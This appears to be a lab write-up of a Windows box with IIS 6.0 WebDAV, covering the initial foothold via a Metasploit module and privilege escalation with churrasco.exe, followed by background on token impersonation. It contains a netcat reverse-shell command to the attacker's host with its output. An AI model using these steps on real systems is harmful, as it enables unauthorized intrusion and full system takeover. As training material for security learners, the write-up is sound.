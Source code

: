 Box: Windows
Level: Easy
### Index
1. Initial Access using iis_webdav_scstoragepathfromurl - msfconsole 
2. Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)
3. Failed attempt of multiple MS Missing Patches exploits
4. Token Kidnapping Patch from Microsoft
5. Privilege Escalation using churrasco.exe 

Nmap reveals the following result
```
$ nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.10.14
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Tue, 06 Aug 2024 15:55:20 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Trying the iis_webdav_scstoragepathfromurl from msfconsole gets the "nt authority\network service" shell but no access to user flag.
```
Just setup the RHOST and LHOST and run the exploit. 
```

winPEAS.bat reveals the following results. 
```
PRIVILEGES INFORMATION                
----------------------                                                                                                                                  Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/) at this stage. But there are couple of well-known Windows Privilege Escalation Technique that we can cover for this box. Each one is explain with the reference link below.

Following are the couple of links I would highly advice myself to read again and again

1. [Abusing Token Privileges For Windows Local Privilege Escalation](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
2. [Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) 
3. [Hot Potato – Windows Privilege Escalation](https://foxglovesecurity.com/2016/01/16/hot-potato/)
4. [Privilege Escalation (Windows) – churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)
5. [Privilege Escalation (Windows) – JuicyPotato.exe](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)

Churrasco.exe was ran with the following command when the netcat listener was on.
```
C:\tmp>churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

The reverse shell was captured with elevated privileges.

For this box, we used Churrasco.exe exploit. The Churrasco.exe exploit take advantage of 'Token Kidnapping Revenge' attack. Here are few of the background theory I have learned.

1. **Impersonation**: It is an ability of a thread to execute using a different security information than the process that owns the thread. Threads Impersonates in order to run the code under different user account, all ACL checks are done against the impersonated users. Impersonation can only be performed by processes with the 'SeImpersonatePrivilege'  aka "Impersonate a client after authentication" privilege. When a thread impersonates, it has an associated impersonation token.
   
2. **Token:** An access token is an object that describes the security context of a process or thread. It includes the identity and privileges of the user account associated with the process or thread. They can be primary or Impersonation tokens. Primary tokens are those that are assigned to processes. Impersonation tokens are those that can be get when impersonation occurs. There are four Impersonation levels. 'SecurityAnonymous', 'SecurityIdentity', 'SecurityImpersonation' and 'SecurityDelegation'. Impersonation takes place mostly during Inter Process Communication (IPC) using Local Procedure Call (LPC).

In the past, Windows Services ran as a Local SYSTEM account. Compromise of service == Full System Compromise. Than Microsoft Introduce NETWORK SERVICES and LOCAL SERVICES account. Hence, Compromise of service != Full System Compromise.


> [!NOTE] Token Kidnapping Patch from Microsoft
>Some Windows services that are impersonate privileged account are protected, they are create with a "special" permission. For Example: Service runs under the NETWORK SERVICE account CAN NOT access the protected service running under the same NETWORK SERVICE account. This protection was introduce as a patch from Microsoft. Before this patch, it was possible to elevate privileges by getting privilege impersonation token from another process running under the same NETWORK SERVICE account.

The following two resources covers the in-depth details.

[Research Paper on Token Kidnapping](https://home.ubalt.edu/abento/453/winsecurity/TokenKidnappingRevenge.pdf)

[Defcon - Token Kidnapping](https://github.com/Re4son/Churrasco/blob/master/DEFCON-18-Cerrudo-Token-Kidnapping-Revenge.pdf)